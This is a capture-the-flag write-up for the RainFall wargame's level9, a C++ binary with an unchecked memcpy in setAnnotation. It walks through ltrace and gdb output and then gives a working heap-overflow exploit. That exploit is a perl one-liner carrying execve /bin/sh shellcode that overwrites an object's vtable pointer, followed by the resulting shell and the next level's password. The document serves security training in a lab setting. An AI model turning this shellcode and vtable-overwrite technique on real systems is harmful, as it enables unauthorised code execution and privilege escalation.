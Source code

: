 We notice that this level is written in C++.

We also notice that beyond 108 characters, le program segfaults :

> level9@RainFall:~$ ./level9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   
> Segmentation fault (core dumped)

In fact, it is a `memcpy` function that segfaults :

>level9@RainFall:~$ ltrace ./level9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA    
> __libc_start_main(0x80485f4, 2, 0xbffff774, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff774, 0xbffff780, 0xb7d79e55, 0xb7fed280) = 0x804a008
_Znwj(108, 5, 0xbffff780, 0xb7d79e55, 0xb7fed280) = 0x804a078
strlen("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...) = 109
memcpy(0x0804a00c, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 109) = 0x0804a00c
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

The `memcpy` function is called in the `setAnnotation`. Because it uses the length of the string with `strlen`, but there is no control of the size, we can overflow and cause changes to the heap.

Let's start the program while putting a breakpoint to `setAnnotation` function : 

> (gdb) disas main    
> Dump of assembler code for function main:   
   0x080485f4 <+0>:	push   %ebp   
   0x080485f5 <+1>:	mov    %esp,%ebp   
   0x080485f7 <+3>:	push   %ebx   
   0x080485f8 <+4>:	and    $0xfffffff0,%esp   
   0x080485fb <+7>:	sub    $0x20,%esp   
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)   
   0x08048602 <+14>:	jg     0x8048610 <main+28>   
   0x08048604 <+16>:	movl   $0x1,(%esp)   
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>   
   0x08048610 <+28>:	movl   $0x6c,(%esp)   
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>   
   0x0804861c <+40>:	mov    %eax,%ebx   
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)   
   0x08048626 <+50>:	mov    %ebx,(%esp)   
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>   
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)   
   0x08048632 <+62>:	movl   $0x6c,(%esp)   
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>   
   0x0804863e <+74>:	mov    %eax,%ebx   
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)   
   0x08048648 <+84>:	mov    %ebx,(%esp)   
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>   
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)   
   0x08048654 <+96>:	mov    0x1c(%esp),%eax   
   0x08048658 <+100>:	mov    %eax,0x14(%esp)   
   0x0804865c <+104>:	mov    0x18(%esp),%eax   
   0x08048660 <+108>:	mov    %eax,0x10(%esp)   
   0x08048664 <+112>:	mov    0xc(%ebp),%eax   
   0x08048667 <+115>:	add    $0x4,%eax   
   0x0804866a <+118>:	mov    (%eax),%eax   
   0x0804866c <+120>:	mov    %eax,0x4(%esp)   
   0x08048670 <+124>:	mov    0x14(%esp),%eax   
   0x08048674 <+128>:	mov    %eax,(%esp)   
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAn   notationEPc>       
   0x0804867c <+136>:	mov    0x10(%esp),%eax   
   0x08048680 <+140>:	mov    (%eax),%eax   
---Type <return> to continue, or q <return> to quit---   
   0x08048682 <+142>:	mov    (%eax),%edx   
   0x08048684 <+144>:	mov    0x14(%esp),%eax   
   0x08048688 <+148>:	mov    %eax,0x4(%esp)   
   0x0804868c <+152>:	mov    0x10(%esp),%eax   
   0x08048690 <+156>:	mov    %eax,(%esp)   
   0x08048693 <+159>:	call   *%edx   
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx   
   0x08048698 <+164>:	leave     
   0x08048699 <+165>:	ret   

> (gdb) br *0x08048677   
> Breakpoint 1 at 0x8048677

[...]

> level9@RainFall:~$ ./level9 `perl -e 'print "\x10\xa0\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","A"x56,"\x0c\xa0\x04\x08"'`    

> $ whoami   
bonus0

> $ cat /home/user/bonus0/.pass    
>f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

# Sources : 

https://seanmurphree.com/blog/?p=157